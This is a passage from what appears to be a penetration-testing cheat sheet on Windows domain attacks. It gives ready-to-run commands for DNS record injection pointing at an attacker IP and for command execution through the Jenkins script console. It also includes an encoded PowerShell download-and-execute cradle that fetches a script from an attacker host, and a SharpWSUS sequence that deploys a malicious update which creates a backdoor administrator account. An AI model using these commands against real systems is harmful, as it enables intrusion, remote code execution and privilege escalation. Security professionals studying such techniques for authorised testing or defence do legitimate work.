 ```powershell
# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

#### DNS update with Invoke-DNSUpdate

To work with "classic" record, i.e. not wildcard record

```powershell
Invoke-DNSUpdate -DNSType A -DNSName test.domain.local -DNSData <attacker_IP> -Realm domain.local
```

### Feature abuse

#### Jenkins

Go to `http://<IP>/script`

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

Without admin access : add a build step in the build configuration, add `"Execute Windows Batch Command"` and `powershell –c <command>`

```bash
powershell -c "iex (new-object system.net.webclient).downloadstring('http://<attacker_IP>/Invoke-HelloWorld.ps1')"

#For more hardened policy
#On Kali
    echo "iex (new-object system.net.webclient).downloadstring('http://<attacker_IP>/Invoke-HelloWorld.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
#In Jenkins
    cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <base64_command>
```

#### SCCM / MECM - PXE boot

Check the dedicated [page](https://hideandsec.sh/books/cheatsheets-82c/page/system-center-configuration-manager).

#### WSUS

* Push an evil update on the computers : [SharpWSUS explains](https://labs.nettitude.com/blog/introducing-sharpwsus/)

```powershell
#Locate the WSUS server
./SharpWSUS locate

#Find a way to compromise it
#Enumerate the contents of the WSUS server to determine which machines to target
./SharpWSUS.exe inspect

#Create a malicious patch with a Microsoft signed binary (mandatory)
./SharpWSUS.exe create /payload:"C:\tmp\psexec.exe" /args:"-accepteula -s -d cmd.exe /c \"net user user1 Password123! /add && net localgroup administrators user1 /add\"" /title:"EvilWSUS"

#Create a WSUS group, add the target machine to the WSUS group and approve the malicious patch for deployment
./SharpWSUS.exe approve /updateid:<GUID_from_create> /computername:<target> /groupname:"Evil Group"

#Wait for the client to download the patch, not possible to control
```